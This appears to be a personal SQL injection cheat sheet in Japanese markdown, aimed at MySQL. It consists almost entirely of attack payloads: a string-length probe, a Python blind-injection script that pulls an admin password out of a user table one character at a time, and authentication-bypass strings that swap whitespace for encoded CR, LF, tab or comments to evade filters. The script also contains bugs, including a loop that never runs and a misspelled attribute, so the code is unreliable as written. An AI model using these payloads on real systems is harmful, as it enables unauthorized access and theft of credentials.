 # SQL Injection my cheet sheet

## Mysql

### 文字列の長さを調べる

```
?id=' and length(str)=8 -- -
```

これでログインが成功したときのページ繊維などが起きれば文字列の長さが8文字とわかる

### bind SQL Injection

`id`と`pass`というparamが存在し、passを求める場合

例

```python
import requests
url = ''
str_length = 1 # 取得する文字列の長さ
for index in range(1, str_length):
    for char_number in range(48, 123):
        char = chr(char_number)
        sql = 'admin\' AND SUBSTR((SELECT pass FROM user WHERE id = \'admin\'), {index}, 1) = \'{char}\' --'.format(index = index, char = char)
        payload = {
            'id' : sql,
            'pass' : ''
        }
        response = requests.post(url, data=payload)
        if len(response.text) > 2000: # 成功時にresponseの長さが変わる場合に有効
        # if len(response.txt).find('成功時に表示される文字列') != -1:
            print(char, end="")
            break
print()
```

### escape回避

* CR(Carriage Return) `%0d`で空白を挿入できる

```
?id='%0dor%0d'1'='1'--
```
> ?id=' or '1'='1'--

* LF(Line Feed) `%0a`で空白を挿入できる

```
?id='%0aor%0a'1'='1' #
```

> ?id=' or '1'='1'--

* Tab `0x09`でtabを挿入できる

```
?id='%09or%09'1'='1' #
```

> ?id=' or  '1'='1'--

* comment `/**/`でコメントを挿入すると空白なしで通る

```
?id='/**/or/**/'1'='1' #
```

> ?id='/* * /or/ * */'1'='1'--
